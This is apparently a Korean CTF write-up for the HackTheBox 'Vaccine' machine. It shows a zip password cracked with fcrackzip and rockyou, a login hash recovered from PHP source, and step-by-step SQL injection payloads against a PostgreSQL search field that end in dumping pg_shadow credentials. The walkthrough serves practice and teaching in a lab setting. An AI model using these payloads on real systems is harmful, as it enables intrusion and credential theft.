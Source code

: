 `backup.zip`을 압축해제 하려고 하니까 비밀번호가 걸려있다. 

```bash
root@kali:~/HTB/vaccine# sudo apt-get install fcrackzip
root@kali:~/HTB/vaccine# fcrackzip -u -D -p '/usr/share/wordlists/rockyou.txt' backup.zip


PASSWORD FOUND!!!!: pw == 741852963
```

비밀번호를 찾았으니 압축을 해제하면 된다.

``` php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>

```

비밀번호의 `md5`값을 알 수 있고, 이를 크랙해보면 `qwerty789`다.

로그인하고 나면 검색창이 뜬다.

`search`를 get방식으로 받아 검색한다. sql injection이 매우 의심된다.

`Elixir'`을 입력해주니까

```
ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ㅑilike '%Elixir'%' ^
```

에러메세지를 출력한다. `ilike`문(`like`에서 대소문자 무시)을 사용하고 `SELECT *`을 하기 때문에 UNION SELECT를 하려면 컬럼 갯수 먼저 알아내야 한다. 

```
[*] search : Elixir' order by 6--
[*] ERROR: ORDER BY position 6 is not in select list LINE 1: Select * from cars where name ilike '%Elixir' order by 6--%' ^
```

`order by` 가 6이 되었을 때 처음 에러를 발생하므로 컬럼의 갯수는 5개다.

```
[*] search : Elixir';SELECT null,current_database(),null,null,null--
[*] result : carsdb
```

5개의 컬럼을 select 하지만 화면에 보여지는 컬럼의 갯수는 4개이다. 첫 번째 컬럼이 아마 인덱스처럼 사용되고 있는 것 같다.. 그래서 첫 번째 위치만 아니면 우리가 원하는 값을 화면에 출력할 수 있다.

```
[*] search : Elixir';SELECT null,usename,passwd ,null,null FROM pg_shadow --
[*] result : username - postgres
			 password - md52d58e0637ec1e94cdfba3d1c26b67d01
```
